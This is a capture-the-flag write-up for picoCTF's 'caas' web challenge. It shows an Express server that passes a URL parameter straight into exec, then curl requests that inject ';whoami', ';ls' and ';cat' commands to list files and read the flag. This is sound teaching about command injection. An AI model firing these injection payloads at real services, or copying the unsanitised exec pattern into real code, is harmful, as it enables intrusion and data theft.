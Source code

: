 # caas

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 150
Tags: picoMini by redpwn, Web Exploitation
Author: BROWNIEINMOTION

Description:
Now presenting cowsay as a service

Hints:
(None)
```

## Solution

### Analyze the code

Lets start by browsing to the web site and see what we find.  
The following text is displayed
```
Cowsay as a Service

Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```

Lets also check the HTML source code. Press `CTRL + U ` or right-click anywhere on the background and select `View page source`
```html
<!doctype html>
<html>
    <head>
        <link rel="stylesheet" href="styles.css"/>
        <script src="index.js"></script>
        <title>CaaS</title>
    </head>
    <body>
        <h1>Cowsay as a Service</h1>
        <strong>Make a request to the following URL to cowsay your message:</strong>
        <br>
        <code></code>
    </body>
</html>
```

Nothing much to see there. But there is also a `index.js` script. Lets check that
```javascript
(async () => {
  await new Promise(r => window.addEventListener('load', r));
  document.querySelector('code').textContent =
    `${window.origin}/cowsay/{message}`;
})();
```

We were also given a `index.js` from the server side
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Ah, we can see that whatever message we send gets executed with `exec`.  
Maybe we can use command injection?

### Exploit the service

Lets first just use the service as intended with `curl`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/picoCTF
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Lets see if we can [inject code](https://en.wikipedia.org/wiki/Code_injection), in this case `whoami`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;whoami"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
node
```

Yes, we can! And we are running as the `node` user.

### Get the flag

Lets start looking for the flag with `ls`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;ls"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

There is a `falg.txt` file. Sneaky!

Lets try to read it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;cat falg.txt"
curl: (3) URL using bad/illegal format or missing URL
```

Ah, forgot to [URL encode](https://en.wikipedia.org/wiki/URL_encoding) the space (should be `%20`)
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;cat%20falg.txt"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

### References

- [Wikipedia - Command/code injection](https://en.wikipedia.org/wiki/Code_injection)
- [Wikipedia - URL encoding](https://en.wikipedia.org/wiki/URL_encoding)
